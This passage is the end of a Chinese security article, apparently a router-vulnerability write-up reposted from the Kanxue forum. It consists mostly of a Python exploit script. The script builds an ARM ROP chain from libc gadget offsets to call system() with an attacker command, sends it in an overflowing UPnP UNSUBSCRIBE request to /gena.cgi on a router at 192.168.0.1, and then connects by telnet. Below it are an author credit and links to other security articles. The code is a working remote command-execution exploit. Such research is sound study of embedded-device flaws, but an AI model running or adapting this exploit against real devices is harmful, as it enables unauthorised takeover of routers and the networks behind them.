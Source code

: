 ```
payload += b'a'*4
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += b'a'*4
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # r3
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
 
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)
 
sleep(1)
system("telnet 192.168.0.1 23")
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4QkWqGyH4D7P9u4icV0NxicaiaQZbx2sRZ2J4dWvhnD5fSUr2oLDciahztA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4ueKdCdQJKmuTU69nnUnUSn7HiaYu63pBNOWxxW1ialSsLRoL8Y21dBoA/640?wx_fmt=png)

  

**看雪 ID：winmt**

https://bbs.pediy.com/user-home-949925.htm

* 本文由看雪论坛 winmt 原创，转载请注明来自看雪社区

[![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8G8Afib4u3yW6GmribqAjIQ9TIMkqLqW61gfHzQrGgP9QV51g5RPGPK2mbn5vpfNx5gI8yjiahUsyWhw/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458447393&idx=5&sn=6d82ff01f82a6dda33188cdc22938983&chksm=b18fdeab86f857bd3804504bd2add426b5a0a678624e2f06f04d2e5b4d7df7216e5831e5e8cd&scene=21#wechat_redirect)

**#** **往期推荐**

1.[Android APP 漏洞之战——调试与反调试详解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458451170&idx=1&sn=268d133649c845d8f062866cf94e7c95&chksm=b18fcc6886f8457e2daaa55cdbdd6c39047ae997da3454fa35b8e8ee07da3b450cbae5b32bda&scene=21#wechat_redirect)  

2.[Fuzzm: 针对 WebAssembly 内存错误的模糊测试](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458451152&idx=2&sn=4abbf7a643b93027529e12442608aca2&chksm=b18fcc5a86f8454cb6051aab6a45751ad736285e3f46e92436edb2b963b46bee27da5e0c9922&scene=21#wechat_redirect)

3.[0rays 战队 2021 圣诞校内招新赛题解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458449944&idx=2&sn=1c51b842fd748e55cbe2cbf80f8371f2&chksm=b18fc89286f84184d536aaa1cad66bce9fb3799ef344b743ab5b3b02e89f2336ab6977cfbe2c&scene=21#wechat_redirect)

4.[2022 腾讯游戏安全初赛一题解析](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458449720&idx=1&sn=d3e33c568fee745ef1ad6334443c2eac&chksm=b18fc7b286f84ea479599f079963ab9b9e199717629c8d0636cd87341b552823a01f995a18c3&scene=21#wechat_redirect)

5. [一文读懂 PE 文件签名并手工验证签名有效性](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458449573&idx=1&sn=cfab5d8030041ed7d6d4ed0eb84619fc&chksm=b18fc62f86f84f3901d3bfa087c6b0ceb1882ad1682d155e01107cc4b0d09c8359445c624a84&scene=21#wechat_redirect)
